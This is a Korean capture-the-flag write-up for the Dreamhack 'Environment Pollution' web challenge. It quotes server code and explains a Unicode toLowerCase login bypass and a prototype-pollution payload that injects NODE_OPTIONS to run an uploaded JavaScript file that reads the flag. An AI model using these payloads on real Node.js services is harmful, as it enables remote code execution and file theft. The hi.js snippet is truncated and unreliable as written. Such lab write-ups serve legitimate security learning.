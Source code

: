 # Environment Pollution
https://dreamhack.io/wargame/challenges/205

## Description
환경 오염이란 "동식물이나 인간의 생활환경이 악화되어 있는 상태"를 뜻 합니다. 대표적으로 북극에 서식하는 육식성 동물인 도지곰이 매우 큰 피해를 받고 있어요. 환경 오염 원인을 찾고, 이를 해결 할 대응책을 찾아주세요.

# Exploit

## korea_pocas Login
```js
app.get('/debug', function(req, res){
    const cook = req.cookies['user'];
    if (cook !== undefined){
        try{
            const information = jwt.verify(cook, SECRET);
            if (information['user'] == 'korea_pocas'){
                res.send(spawnSync(process.execPath, ['debug.js']).stdout.toString());
            } else {
                res.send("Debug mode off");
            }
        } catch (e) {
            res.status(401).json({ error: 'unauthorized' });
        }
    } else {
        try{
            res.send("You are not login..")
        } catch (e) {
            res.send("I don't know..")
        }
    }
})
```
Debug를 활성화시키려면 korea_pocas로 로그인을 해야한다.

```js
app.post('/register', (req, res) => {
    const name = req.body.name;
    const id = req.body.id;
    const pw = req.body.pw;
    const rpw = req.body.rpw;

    if (/[A-Z]/g.test(id) || id == 'korea_pocas') {
        res.send("This user is not allowed.").status(400);
    }
    else{
        const params = [name.toLowerCase(), id.toLowerCase(), func.sha256(pw.toLowerCase())];
        conn.query(mysql.format("insert into users(name, id, pw) values(?, ?, ?);", params), function(err, rows){
            if(err) { res.send(err);}
            else {res.redirect("/login");}
        });
}});
```
필요없는 코드를 삭제한 코드이다.

첫번째 if문에서 정규식과 korea_pocas로 걸러내서 korea_pocas로의 회원가입을 막는다.    
하지만 toLowerCase 취약점을 이용해서 쉽게 우회할 수 있다.

```bash
C:\Users\user>node
> a = "K"
'K'
> a.toLowerCase()
'k'
> a == 'K'
false
```

이런 특수문자들은 여기서 찾을 수 있다.    
https://www.compart.com/en/unicode/U+00ff


## Pollution
```js
exports.merge = function(a, b) {
  for (let key in b) {
    if(check(key)){
        if (isObject(a[key]) && isObject(b[key])) {
          this.merge(a[key], b[key]);
        } else {
          a[key] = b[key];
        }
    }
  }
  return a;
}
```
해당 서버에는 깊은복사를 구현한 merget함수가 있다.    

해당 함수는
```js
app.get('/raw/:filename', function(req, res){
    const file = {};
    const filename = req.params.filename;
    const filepath = `publics/uploads/${filename}`;

    try{
        func.getfile(mysql.format("select * from filelist where path = ?", filepath), function(err, data){
            if(err) {
                res.send(err);
            }
            else{
                if (data){
                    res.download(data.path);
                }else{
                    try{
                        func.merge(file, JSON.parse(`{"filename":"${filename}", "State":"Not Found"}`));
                        res.send(file);
                    } catch (e) {
                        res.send("I don't know..");
                    }
                }
            }
        });
    } catch (e) {
        res.send("I don't know..");
    }
});
```
이 파일 업로드 되는 api에서 사용된다.     
여기서 `filename` 이 `${}`으로 바로 들어가기 때문에 `"` 를 이용해서 SQLi처럼 프로토타입을 감염시킬 수 있다.

### hi.js
```
const fs=require("fs");const flag=fs.readFileSync("flag","utf-8");fs.writeFileSync("/app/publics/uploads/hi.js)
```
js파일을 작성하고 파일을 업로드하며 프록시 툴을 사용해서 `Content-type`을 `chose/javascript`로 수정한다.

-  파싱 로직이 chose/javascript로 개발자가 코딩해놨다.


### prototype pollution
```
","__proto__":{"NODE_OPTIONS":"--require .%2fpublics%2fuploads%2fhi.js"},"a":"a
```

proto 오염으로 인해 `/debug`에 접속하면 hi.js가 실행되면서 flag가 `/raw/hi.js`에서 얻을 수 있다.